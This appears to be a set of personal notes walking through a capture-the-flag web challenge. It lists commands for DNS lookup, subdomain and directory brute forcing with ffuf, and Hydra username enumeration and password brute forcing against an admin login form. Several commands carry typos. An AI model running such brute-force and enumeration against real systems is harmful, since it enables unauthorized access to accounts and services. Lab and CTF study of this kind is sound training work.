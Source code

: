 
>[!warning]
> CTFChallenge will ban you if you use aggresive bruteforce or scanning Techniques.
# Step 1 : 
## Check Code

>[!Note] 
>- Comments
>- Avoid Prebuild Frameworks

__________________________

# Step 2 : 
## DNS Information

```Powershell
nslookup -type=any vulnbegin.com 8.8.8.8
```
_________________

# Step 3 : 
## Subdomain Find

**`Tools can be used like sublister, assetfinder, etc.`**

>[!Info] OSINT WAY
```bash
theHarvester -d vulnbegin.co -b all
```

>[!info] Bruteforce way 
>
```bash
dnsrecon -d vulnbegin.co.uk -D /wordlists/subdomain.txt -type brt
```

### curl

curl *.vulnbegin.co -H "Cookie: $cookie"
_____________

# Step 4 :
## Content Discovery
#Directory_Busting

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Cookie: $cookie" -u http:/vulnbegin.co/FUZZ
```

_________

# Step 5 :
## User Enumeration

```bash
hydra -L /wordlists/usernames.txt -p abcd vulnbegin.co http-post-form "/cpadmin/login:username=^USER^&password=^PASS:F=Username is Invalid:H=Cookie: $cookie" -f -t 1
```

## Password Bruteforce

```bash
hydra -l admin -p /wordlists/password.txt vulnbegin.co http-post-form "/cpadmin/login:username=^USER^&password=^PASS:F=Password is Invalid:H=Cookie: $cookie" -f -t 1
```

_____
# Step 6 : 
## Cookies
Name | Value
---- | ----
token| @@@@
ctfchallenge | @@@@

>[!Note]
>Token allows us to stay on the user page.

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Cookie: token=@@@@; $cookie" -u http:/vulnbegin.co/userpage/FUZZ
```

________

# Step 7 :
## Find the commons

- Use the header to other subdomain
__________
# Step 8 :
## Content Discovery

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Header dicovered" -H "Cookie: $cookie" -u http://*.vulnbegin.co/FUZZ
```
______
# Step 9 :
## User Bruteforce 
#using_seq_tool

```bash
seq 1 100 | fuff -w - -t 2 -p 0.1 -H "Header dicovered" -H "Cookie: $cookie" -u http://*.vulnbegin.co/user/FUZZ
```
